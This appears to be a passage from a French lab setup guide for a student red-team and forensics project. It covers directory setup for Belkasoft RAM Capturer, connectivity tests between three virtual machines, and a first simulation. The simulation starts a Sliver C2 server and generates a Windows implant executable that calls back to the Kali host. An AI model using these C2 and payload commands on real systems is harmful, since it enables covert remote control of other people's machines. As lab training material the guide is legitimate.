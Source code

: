 ### Téléchargement de Belkasoft RAM Capturer (VM2)
```powershell
# Sur VM2 (Windows), télécharger depuis :
# https://belkasoft.com/ram-capturer

# Créer les répertoires nécessaires
New-Item -ItemType Directory -Path "C:\Tools\BelkasoftRAMCapturer" -Force
New-Item -ItemType Directory -Path "C:\Evidence" -Force
```

---

## 🚀 **ÉTAPE 8 : PREMIÈRE UTILISATION** (30 min)

### Test de Connectivité Complète
```bash
# Sur VM1 (Kali)
cd ~/project-m1/scripts

# Test de connectivité réseau
ping -c 2 192.168.56.20  # VM2
ping -c 2 192.168.56.30  # VM3

# Validation complète du système
./project-validator.sh
```

### Lancement de la Première Simulation
```bash
# Mode interactif recommandé pour la première fois
python3 project-orchestrator.py

# Sélectionner option 1 : "Vérifier les prérequis"
# Puis option 3 : "Workflow étape par étape"
```

### Étapes de la Première Simulation

**1. Démarrage Silver C2**
```bash
# L'orchestrateur propose de démarrer Silver
# Ou manuellement :
sudo sliver-server daemon --lhost 192.168.56.10 --lport 31337 &

# Dans un nouveau terminal :
sliver-client
# Vérifier que la connexion fonctionne
```

**2. Génération du Premier Payload**
```bash
# Dans la console Silver
sliver > http --lhost 192.168.56.10 --lport 8080
sliver > generate --http 192.168.56.10:8080 --os windows --arch amd64 --format exe --save ~/project-m1/payloads/test-payload.exe
```
